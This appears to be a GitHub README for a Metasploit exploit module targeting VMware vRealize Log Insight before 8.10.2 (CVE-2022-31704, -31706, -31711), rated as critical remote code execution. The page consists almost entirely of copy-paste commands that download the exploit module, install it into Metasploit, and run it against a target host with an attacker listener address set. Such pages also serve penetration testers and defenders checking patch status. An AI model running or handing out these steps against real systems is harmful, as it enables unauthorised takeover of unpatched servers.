 # CVE-2022-31704, CVE-2022-31706, CVE-2022-31711
![](https://img.shields.io/static/v1?label=Product&message=VMWare%20vRealize%20Log%20Insight&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=%3C8.10.2&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Remote%20Code%20Execution&color=red)


### Metasploit Framework 
```
wget https://raw.githubusercontent.com/getdrive/PoC/main/2022/VMware_vRealize_Log_Insight/vmware_vrli_rce.rb
```

```
cp vmware_vrli_rce.rb /usr/share/metasploit-framework/modules/exploits/linux/http/vmware_vrli_rce.rb
```
```
msfdb reinit; msfconsole -q
```
```
use exploits/linux/http/vmware_vrli_rce.rb
```
```
set rhosts target_IP
```
```
set lhost attacker_IP
```
```
run
```
